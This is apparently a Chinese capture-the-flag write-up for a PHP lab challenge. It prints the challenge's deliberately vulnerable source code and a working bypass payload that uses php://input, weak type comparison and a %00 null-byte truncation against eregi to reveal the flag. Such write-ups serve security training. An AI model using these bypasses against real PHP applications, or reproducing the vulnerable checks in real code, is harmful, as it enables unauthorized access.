


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境


2.访问并查看源代码，发现提示：



3.访问challenge3.phps，得到源码：

```php
<?php
error_reporting(0);
echo "<!--challenge3.phps-->";
require __DIR__.'/lib.php';
if(!$_GET['id'])
{
    header('Location: challenge3.php?id=1');
    exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
    echo 'Hahahahahaha';
    return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
    echo $flag;
}
else
{
    print "work harder!harder!harder!";
}
?>
```

4.php弱类型绕过。当`$a`为`php://input`，`$data`可以通过`php://input`来接受post数据。`$id`传一个字符进去，会被转换为0。对`$b`，要求长度大于5，其次要求满足`eregi`的要求和首字母不为4。可以设置`$b`为`%00111111`，这样，`substr（）`会发生截断，在匹配时时进行`eregi(“111”,”1114”)`满足，同时`%00`对`strlen`不会发生截断。

5.输入payload：

```php
?id=a&a=php://input&b=%0011111

POST:
1112 is a nice lab!
```

